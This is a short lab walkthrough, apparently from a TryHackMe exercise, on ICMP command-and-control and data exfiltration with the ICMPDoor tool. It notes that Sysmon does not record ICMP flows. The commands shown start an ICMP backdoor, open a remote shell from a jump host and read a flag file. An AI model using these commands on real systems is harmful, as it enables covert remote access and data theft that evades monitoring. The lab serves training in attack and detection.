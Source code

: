 # ICMP C2 communication

Data exfiltration can also leverage ICMP flows with a C2 server, using the data payload in ICMP-PING packets.

The detection of data exfiltration using this method is not easy since it’s hard to tell apart "normal", legit 
ICMP traffic from ICMP flows part of an exfiltration attempt. Furthermore, some tools used for endpoint telemetry, 
such as Sysmon, record TCP/UDP connections but not ICMP flows.

Using the [ICMPDoor](https://github.com/krabelize/icmpdoor) tool.

On icmp host:

    thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133

On jump host:

    thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 192.168.0.121
    [sudo] password for thm:
    shell: hostname
    hostname
    shell: icmp-host

Get the flag:

    shell: getFlag
    getFlag
    shell: [+] Check the flag: /tmp/flag.txt
    
    shell: cat /tmp/flag.txt
    cat /tmp/flag.txt

## Resources

* [icyguider/ICMP-TransferTools](https://github.com/icyguider/ICMP-TransferTools)